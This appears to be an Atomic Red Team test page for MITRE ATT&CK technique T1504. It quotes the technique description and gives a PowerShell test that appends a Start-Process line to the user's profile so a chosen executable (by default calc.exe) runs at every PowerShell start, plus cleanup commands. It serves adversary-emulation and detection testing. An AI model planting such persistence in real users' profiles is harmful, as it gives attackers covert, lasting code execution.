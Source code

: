 # T1504 - PowerShell Profile
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1504)
<blockquote>Adversaries may gain persistence and elevate privileges in certain situations by abusing [PowerShell](https://attack.mitre.org/techniques/T1086) profiles. A PowerShell profile  (<code>profile.ps1</code>) is a script that runs when PowerShell starts and can be used as a logon script to customize user environments. PowerShell supports several profiles depending on the user or host program. For example, there can be different profiles for PowerShell host programs such as the PowerShell console, PowerShell ISE or Visual Studio Code. An administrator can also configure a profile that applies to all users and host programs on the local computer. (Citation: Microsoft About Profiles) 

Adversaries may modify these profiles to include arbitrary commands, functions, modules, and/or PowerShell drives to gain persistence. Every time a user opens a PowerShell session the modified script will be executed unless the <code>-NoProfile</code> flag is used when it is launched. (Citation: ESET Turla PowerShell May 2019) 

An adversary may also be able to escalate privileges if a script in a PowerShell profile is loaded and executed by an account with higher privileges, such as a domain administrator. (Citation: Wits End and Shady PowerShell Profiles)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Append malicious start-process cmdlet](#atomic-test-1---append-malicious-start-process-cmdlet)


<br/>

## Atomic Test #1 - Append malicious start-process cmdlet
Appends a start process cmdlet to the current user's powershell profile pofile that points to a malicious executable

**Supported Platforms:** Windows


#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| exe_path | Path the malicious executable | Path | calc.exe|
| ps_profile | Powershell profile to use | String | $profile|


#### Attack Commands: Run with `powershell`! 


```powershell
if(Test-Path #{ps_profile}){
}
else{
  New-Item -Path #{ps_profile} -Type File -Force
}
$malicious = "Start-Process #{exe_path}"
Add-Content #{ps_profile} -Value $malicious
powershell -command exit
```

#### Cleanup Commands:
```
$oldprofile = cat $profile | Select-Object -skiplast 1
Set-Content $profile -Value $oldprofile
```





<br/>
